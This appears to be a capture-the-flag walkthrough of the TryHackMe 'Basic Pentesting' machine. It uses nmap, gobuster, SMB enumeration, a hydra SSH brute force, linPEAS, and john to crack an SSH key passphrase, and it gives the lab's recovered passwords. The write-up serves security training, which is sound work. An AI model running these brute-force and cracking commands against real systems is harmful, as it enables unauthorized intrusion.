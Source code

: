 ```yaml
---
title: Basic Pentesting
date: 2022-04-25 17:00:00 +500
categories: [THM, easy machine]
tags: [bruteforce,hash]     # TAG names should always be lowercase
---
```



## Web App Testing and Privilege Escalation

### Find the services exposed by the machine
We are going to start with a fast Nmap scan and then a more detailed of the ports found

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
```

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open   http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
445/tcp  open   netbios-ssn   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1339/tcp closed kjtsiteserver
8009/tcp open   ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### What is the name of the hidden directory on the web server(enter name without /)?

Going to the site there's nothing helpful, but in the source code, there's a comment "Check our dev note section if you need to know what to work on." this might be a hint. anyway let's run a directory scan with Gobuster

```bash
gobuster dir -u 10.10.31.125 -w /usr/share/dirb/wordlists/common.txt
```

and sure it was, the scan found the /development directory. in there, we found two notes

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

from this we can deduct things, there are two potential users -J and -K, the user -J has a weak password, and they're using some software with version 2.5.12

### User brute-forcing to find the username & password

I don't how I was supposed to brute force the username but doing reconnaissance on the smb service I found a Anonymous share that I can log into, and there it was a note with the usernames

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

### What is the username?

> jan

### What is the password?

now I guess this is the part where I have to brute force, and by discard, I'll brute force the ssh service. For this I'll use hydra, the syntax is:
hydra -l [user] -P [passlist] [ip] -t 64 ssh
- t being the number of parallel task

```terminal
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.31.125 -t 64 ssh
```

and we got a password!

```
[22][ssh] host: 10.10.31.125   login: jan   password: armando
```

> armando

### What service do you use to access the server(answer in abbreviation in all caps)?

> SSH 

### Enumerate the machine to find any vectors for privilege escalation

I didn't find anything doing a quick enum so I'll try to use linPEAS as the hint also say.

I don't have writing permissions on my home directory so I'll transfer the file to the /dev/shm directory which is for creating temporary files and we have writing permissions there using scp.

```terminal
scp ./linpeas.sh jan@10.10.31.125:/dev/shm
```
then make it executable and run it 

```terminal
chmod +x linpeas.sh
./linpeas.sh
```

kay id_rsa key is readable


### What is the name of the other user you found(all lower case)?

checking the /home directory we can see that is:

> kay

### If you have found another user, what can you do with this information?

since we know that kay id_rsa key is readable let's try to crack it with john

first, we convert it to a format that john understand with ssh2john

```terminal
ssh2john id_rsa > hash
```

then we can crack the passphrase with:
```terminal
john -w=/usr/share/wordlists/rockyou.txt hash
```
 
this gave us 
```
beeswax          (id_rsa)
```

now let's try to connect to this user.

remember to give permissions to the id_rsa key
```
chmod 600 id_rsa
```

and now we connect with:
```terminal
ssh -i id_rsa kay@10.10.31.125
```

we put in the passphrase that we cracked, and we are in!

### What is the final password you obtain?

now that we are in we can read the file pass.bak that we saw previously in the enum phase, which contained this password.

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
